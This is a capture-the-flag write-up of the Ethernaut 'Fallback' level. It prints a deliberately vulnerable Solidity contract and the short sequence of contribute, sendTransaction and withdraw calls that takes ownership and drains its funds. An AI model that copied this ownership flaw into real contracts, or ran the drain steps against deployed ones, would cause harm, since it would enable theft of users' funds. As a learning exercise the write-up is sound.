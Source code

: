 ## Level 01 - Fallback - Write-Up
<!--Authors: OofedUp-->

Difficulty: 1/10

![image](https://i.imgur.com/dz86HHW.png)

## Source
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solve
In order to claim ownership, I noticed that the fallback function gives it to me:

```javascript
function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

Before we can trigger it, we must call the `contribute` function once, since the fallback function requires us to have contributed before. I will contribute *900000000000000* WEI since it is equivalent to 0.0009 ether, just under the contribution threshold.

```javascript
contract.contribute({value: 900000000000000})
```

So I just send money to the contract, without any function, in order to trigger the fallback function. I could've also called an inexisting function, but since I had the `contract.sendTransaction()` function handy, I used that one:

```javascript
  contract.sendTransaction({value: 1337})
```

Let's check if we have become the owner:

![image](https://i.imgur.com/B20sh8Q.png)

We have! Now all that's left to do is call the `withdraw()` function on the contract and retrieve all the moneyzzz:

```javascript
contract.withdraw()
```

Now we can submit the instance since we solved the challenge.

![image](https://i.imgur.com/qVQ6g2y.png)
